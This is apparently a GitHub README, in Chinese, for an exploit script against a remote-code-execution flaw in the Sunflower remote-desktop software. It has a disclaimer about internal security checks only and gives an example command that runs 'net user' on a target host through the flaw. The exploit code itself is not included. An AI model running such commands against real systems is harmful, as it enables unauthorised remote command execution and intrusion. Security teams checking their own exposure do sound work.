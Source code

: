 # 向日葵RCE漏洞检测工具

## 使用需知
仅供企业内部安全隐患排查使用，由于传播、利用此工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。

## 功能
只写了漏洞利用，没写端口检测
有空再完善代码，及添加批量检测功能

## 使用方法
```shell
python exp.py -a [--host] -p [port] -c [--command] 
python exp.py -a 192.168.28.250 -p 20038 -c "net user"
```
![image-20220218041904120](https://cdn.jsdelivr.net/gh/j2ekim/blog-image/image/image-20220218041904120.png)
